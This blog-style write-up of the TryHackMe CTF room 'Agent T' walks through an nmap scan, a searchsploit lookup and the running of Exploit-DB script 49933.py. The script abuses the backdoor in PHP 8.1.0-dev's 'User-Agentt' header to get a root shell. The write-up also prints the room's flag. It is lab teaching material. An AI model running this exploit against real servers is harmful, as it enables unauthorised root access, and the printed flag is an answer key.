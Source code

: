```yaml
---
weight: 3
title: "CTF writeup - TryHackMe - Agent T"
date: 2022-09-03
lastmod: 2022-09-03T19:16:40+08:00
description: "Saturday night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit a built-in backdoor in a PHP cli server.
---
```

# TryHackMe: Agent T

{{< figure src="/agent_t/Untitled.png" >}}

# Scanning & Enumeration

## NMAP

```bash
└─$ nmap -A -T4 -F $IP
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2022-08-30 10:05 EDT
Nmap scan report for 10.10.144.112
Host is up (0.060s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

A quick Nmap scan reveals that this host only has 1 service running. Apparently a web server of some sort with an exposed administrator dashboard. The header response shows us that it uses **PHP 8.1.0-dev.**

## Searchsploit

Searching for this in searchsploit tells us that it has an exploit available, utilzing a built-in backdoor. That is pretty serious!

```bash

└─$ searchsploit PHP 8.1.0 dev

---

Exploit Title                                                                             |  Path

---

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                        | php/webapps/49933.py

---

Shellcodes: No Results
```

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
> 

# Gaining access

After running the python script and abusing the backdoor exploit, we immediately spawn a root shell. This makes it simple to retrieve the root flag.

```bash
┌──(kali㉿kali)-[~/tryhackme/flatline]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
[http://10.10.144.112](http://10.10.144.112/)

Interactive shell is opened on [http://10.10.144.112](http://10.10.144.112/)
Can't acces tty; job crontol turned off.
$ whoami
root
$ cat /flag.txt
~~flag{4127d0530abf16d6d23973e3df8dbecb}~~
```